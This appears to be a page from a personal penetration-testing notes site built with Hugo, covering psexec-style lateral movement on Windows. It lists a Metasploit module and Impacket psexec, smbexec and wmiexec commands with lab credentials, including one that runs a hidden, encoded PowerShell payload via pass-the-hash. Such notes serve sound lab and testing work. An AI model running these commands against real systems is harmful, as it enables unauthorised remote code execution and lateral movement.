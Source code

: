 ```yaml
---
### The title for the content.
title : "psexec"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "psexec"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "psexec description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "psexec"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## psexec

### MSFConsole

`exploit/windows/smb/psexec`

### PSExec.py

`psexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

### alternatives

#### smbexec

`smbexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

#### wmiexec

##### Example 1

`wmiexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

##### Example 2

`wmiexec.py lab.justin-p.me/dwalker@10.11.12.101 'powershell -exec bypass -Noninteractive -windowstyle hidden -e 'PAYLOAD' -hashes a:hash`
